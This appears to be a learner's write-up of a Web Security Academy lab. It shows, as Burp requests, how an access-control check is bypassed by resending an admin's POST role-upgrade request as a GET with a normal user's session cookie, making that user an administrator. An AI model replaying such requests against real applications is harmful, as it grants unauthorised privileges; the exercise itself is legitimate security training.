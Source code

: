 *This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin. To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.*

Logged in as admin first and navigated to the admin panel : 

![[Screenshot 2024-04-30 at 4.06.47 PM.png]]
Let's try capturing the request to upgrade a user to see what is passed: 

```Burp 
POST /admin-roles HTTP/2
Host: 0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Cookie: session=xjCpOIGkNqRjyYMF4dZVoYNt7vLltwED
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Referer: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener&action=upgrade

```

I opened a new tab and logged in as *wiener* to obtain the session value and pass that into the original request in the Repeater, changing the value the request to GET. 

```Burp 
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Cookie: session=5ue9JsMoN6zQf7xmBhG1LTbUgvSMY5vT
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Referer: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```